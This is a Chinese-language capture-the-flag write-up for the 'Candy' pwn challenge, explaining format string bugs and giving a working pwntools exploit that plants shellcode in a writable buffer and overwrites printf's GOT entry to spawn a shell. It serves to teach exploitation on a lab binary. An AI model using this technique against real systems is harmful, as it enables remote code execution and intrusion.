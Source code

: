 # Candy

- 作者：pn1fg
- 参考：-
- 难度：Baby/Trivial/Easy/Normal/Medium/Hard/Expert/Insane
- 分类：Pwn
- 镜像：[svuctf-winter-2023/babyrop](https://ghcr.io/svuctf/svuctf-winter-2023/babyrop)
- 端口：70

## 题目描述

## 题目解析

- 源码：[main.c](/build/main.c)
- 考点：格式化字符串，GOT 劫持，shellcode

格式化字符串函数是根据格式化字符串来进行解析的 。**那么相应的要被解析的参数的个数也自然是由这个格式化字符串所控制**。比如说'%s'表明我们会输出一个字符串参数。

![](writeup/images/printf.png)

在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。 
- 当前字符是 %， 继续读取下一个字符 
- 如果没有字符，报错 
- 如果下一个字符是 %, 输出 % 
- 否则根据相应的字符，获取相应的参数，对其进行解析并输出 

那么假设，此时我们在编写程序时候，写成了下面的样子

```c++
printf("Color %s, Number %d, Float %4.2f");
```
此时我们可以发现我们并没有提供参数，那么程序会如何运行呢？程序照样会运行，会将栈上存储格式化字符串地址上面的三个变量分别解析为
- 1.解析其地址对应的字符串 
- 2.解析其内容对应的整形值 
- 3.解析其内容对应的浮点值

这基本就是格式化字符串漏洞的基本原理了。

### 查看文件信息
查看文件类型（`file` 命令）：
```shell
$ file pwn
pwn: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0059aa9c4a34393d23601ab109b1b940e1a6424e, for GNU/Linux 4.4.0, not stripped
```
这是一个64位 ELF 文件（`ELF 64-bit LSB executable`），动态链接（`dynamically linked`），没有去除符号（`not stripped`）

检查文件保护机制（`checksec`命令）：
```shell
$ checksec pwn
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
### 分析漏洞成因

反编译 `main` 函数：
```c++
ulong main(void)

{
    sym.init();
    sym.banner();
    sym.vuln();
    return 0;
}
```
反编译 `init` 函数：
```c++
void sym.init(void)

{
    sym.imp.setvbuf(_reloc.stdin, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stdout, 0, 2, 0);
    sym.imp.setvbuf(_reloc.stderr, 0, 2, 0);
    sym.imp.mprotect(reloc.puts, 0x1000, 7);
    return;
}
```
`mprotect` 函数原型
```c++  
int mprotect(const void *start, size_t len, int prot);
```
`mprotect()` 函数把自 start 开始的、长度为 len 的内存区的保护属性修改为 prot 指定的值。这里的 prot 为7，所以这一块内存区则**可读可写可执行**

反编译 `vuln` 函数：
```c++
void sym.vuln(void)

{
    ulong format;
    ulong var_4h;

    sym.imp.puts("Input your favorite candy:");
    while( true ) {
        sym.menu();
        sym.imp.__isoc99_scanf(0x402423, &var_4h);
        if (var_4h == 3) {
            sym.imp.puts("There is no Unique Human Adventured");
            return;
        }
        if (3 < var_4h) break;
        if (var_4h == 1) {
            sym.imp.read(0, obj.name, 0x100);
        }
        else {
            if (var_4h != 2) break;
            sym.imp.puts("There\'s a candy voucher in the flag!");
            sym.imp.memset(&format, 0, 0x100);
            sym.imp.read(0, &format, 0x100);
            sym.imp.printf(&format);
        }
    }
    sym.imp.puts("Don\'t you like all of them?");
    return;
}
```
分析一下 `vuln` 函数的逻辑，最外层 `while` 循环，然后输入一个整形值，接下来 `if` 条件判断，当输入的值为 `1` 时，调用 `read` 函数向 `obj.name` 中读入 0x100 字符串，`obj.name` 位于`bss`段上，有可执行权限，当输入的值为 `2` 时，执行的分支语句为：

```c++
sym.imp.puts("There\'s a candy voucher in the flag!");
sym.imp.memset(&format, 0, 0x100);
sym.imp.read(0, &format, 0x100);
sym.imp.printf(&format);
```
这里有很明显的格式化字符串漏洞，可以修改任意地址

这题我们的利用思路如下：

- 在 `obj.name` 处填入 shellcode 
- 利用格式化字符串漏洞劫持 GOT 表，修改 `printf` 处地址为 `obj.name` 地址即可执行 shellcode，获取 shell

### 编写利用程序
[exp.py](writeup/exp.py)
```python
from pwn import *

context.arch = "amd64"
context.log_level = "debug"

if args['REMOTE']:
    io = remote('IP',port)
else:
    io = process("./Candy")

elf = ELF("./Candy")

def exec_fmt(pad):
    io = process("./Candy")
    io.sendline(b"2")
    io.send(pad)
    info = io.recv()
    io.close()
    return info

fmt = FmtStr(exec_fmt)
offset = fmt.offset
print("offset ===> ", offset)

pad = fmtstr_payload(offset, {elf.got["printf"]: elf.sym["name"]})

io.sendlineafter(b"Command:", b"1")
io.send(asm(shellcraft.sh()))

io.sendlineafter(b"Command:", b"2")
io.sendlineafter(b"flag!\n", pad)

io.interactive()
```